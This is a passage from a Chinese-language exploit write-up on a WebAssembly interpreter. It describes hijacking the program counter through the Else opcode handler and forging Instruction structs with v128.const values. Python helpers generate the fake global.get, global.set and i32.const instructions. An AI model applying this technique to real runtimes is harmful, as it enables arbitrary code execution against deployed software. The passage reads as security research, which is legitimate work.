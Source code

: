 可控位置正好对应了指令结构体中的`Code`成员，也就是opcode能够任意指定，能够跳转到任何的opcode的handler中去执行，但是相关参数不可控制。一个好的思路是看能否执行某条`Opcode Handler`,将`PC`指向完全可控区。其中一条`Else`指令可以被利用。

```cpp
Expect<void> Executor::execute(Runtime::StoreManager &StoreMgr,
......
    case OpCode::Else:
......
      PC += PC->getJumpEnd();
      [[fallthrough]];
    case OpCode::End:
      PC = StackMgr.maybePopFrame(PC);
      return {};
......
```

处理Else指令时，会将`PC`加上`getJumpEnd()`。

 ![](/attachments/2024-02-21-webassembly/af609951-a7ea-48f5-9657-04019867be64.png)

在内存中看到对应`JumpEnd`的位置数据为`0x154`，意味着我们可以让`PC += 0x154`，这已经足够让我们将`PC`指向可控区了。

由于`Instruction`结构体的大小为32字节，而数据栈中的32字节的数据类型有`v128.const i64x2`，因此我们可以用`v128.const i64x2`来伪造整个`Instruction`结构体。最终的效果如下，在`PCEnd+1`处伪造一条`Else`指令，将`PC`转移到数据栈中，并执行伪造的一系列指令。

 ![](/attachments/2024-02-21-webassembly/22aff027-6458-431a-b211-67a2c6621142.png)

例如`global.get`和`global.set`的伪造如下：

```python
def Global_Get(index):
   global i
   i += 2
   code = 'nop\n'
   code += 'v128.const i64x2 %d 0\n' % (index)
   code += 'nop\n'
   code += 'v128.const i64x2 0x2300000000 0\n'
   return code
def Global_Set(index):
   global i
   i += 2
   code = 'nop\n'
   code += 'v128.const i64x2 %d 0\n' % (index)
   code += 'nop\n'
   code += 'v128.const i64x2 0x2400000000 0\n'
   return code
def i32_const(value):
   global i
   i += 2
   code = 'nop\n'
   code += 'v128.const i64x2 %d 0\n' % (value)
   code += 'nop\n'
   code += 'v128.const i64x2 0x4100000000 0\n'
   return code
......
```
